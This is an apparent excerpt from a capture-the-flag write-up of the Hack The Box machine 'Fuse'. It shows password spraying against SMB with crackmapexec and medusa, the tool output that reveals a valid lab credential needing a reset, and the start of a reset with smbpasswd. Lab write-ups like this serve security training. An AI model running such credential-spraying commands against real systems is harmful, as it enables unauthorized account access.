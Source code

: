 ┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $crackmapexec smb fuse.htb -u users.txt -p fabricorp\_wordlist.txt

SMB 10.129.2.5 445 FUSE \[\*\] Windows Server 2016 Standard 14393 x64 \(name:FUSE\) \(domain:fabricorp.local\) \(signing:True\) \(SM

Bv1:True\)

SMB 10.129.2.5 445 FUSE \[-\] fabricorp.local\pmerton:PaperCut STATUS\_LOGON\_FAILURE

SMB 10.129.2.5 445 FUSE \[-\] fabricorp.local\tlavel:LONWK015 STATUS\_LOGON\_FAILURE

SMB 10.129.2.5 445 FUSE \[-\] fabricorp.local\tlavel:mountain STATUS\_LOGON\_FAILURE

SMB 10.129.2.5 445 FUSE \[-\] fabricorp.local\tlavel:Fabricorp01 STATUS\_PASSWORD\_MUST\_CHANGE

An alternative to crackmapexec is medusa which can be used with the the user file \(-U users.txt\), the password file \(-P fabricorp\_wordlist.txt\) and the SMB NT module \(-M smbnt\). This gives the following output:

┌─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $medusa -h fuse.htb -U users.txt -P fabricorp\_wordlist.txt -M smbnt

Medusa v2.2 \[[http://www.foofus.net\](http://www.foofus.net\)\] \(C\) JoMo-Kun / Foofus Networks &lt;jmk@foofus.net&gt;

ACCOUNT CHECK: \[smbnt\] Host: fuse.htb \(1 of 1, 0 complete\) User: pmerton \(1 of 5, 0 complete\) Password: PaperCut \(1 of 45 complete\)

ACCOUNT CHECK: \[smbnt\] Host: fuse.htb \(1 of 1, 0 complete\) User: pmerton \(1 of 5, 0 complete\) Password: GRAYSCALE \(2 of 45 complete\)

ACCOUNT CHECK: \[smbnt\] Host: fuse.htb \(1 of 1, 0 complete\) User: pmerton \(1 of 5, 0 complete\) Password: papercut \(3 of 45 complete\)

ACCOUNT CHECK: \[smbnt\] Host: fuse.htb \(1 of 1, 0 complete\) User: pmerton \(1 of 5, 0 complete\) Password: sthompson \(4 of 45 complete\)

…

ACCOUNT CHECK: \[smbnt\] Host: fuse.htb \(1 of 1, 0 complete\) User: tlavel \(2 of 5, 1 complete\) Password: Fabricorp01 \(18 of 45 complete\)

ACCOUNT FOUND: \[smbnt\] Host: fuse.htb User: tlavel Password: Fabricorp01 \[SUCCESS \(0x000224:STATUS\_PASSWORD\_MUST\_CHANGE\)\]

…

Whichever way you do it, the end result is that the password for tlavel, Fabricorp01 needs to be reset. We can do this with smbpasswd:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $smbpasswd -U tlavel -r fabricorp.local

Old SMB password:

New SMB password:

Retype new SMB password:
